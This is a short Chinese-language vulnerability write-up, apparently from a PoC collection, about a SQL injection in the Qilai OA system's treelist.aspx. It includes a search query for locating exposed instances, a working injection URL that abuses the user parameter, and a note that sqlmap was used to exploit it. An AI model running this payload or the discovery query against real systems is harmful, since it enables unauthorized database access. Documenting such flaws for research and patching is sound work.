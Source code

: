 # 

# 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下



![qilai-1-1](./images/qilai-1-1.png)

存在SQL注入的文件为 treelist.aspx

```plain
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-1-2](./images/qilai-1-2.png)

使用SQLmap对参数 user 进行注入

![qilai-1-3](./images/qilai-1-3.png)


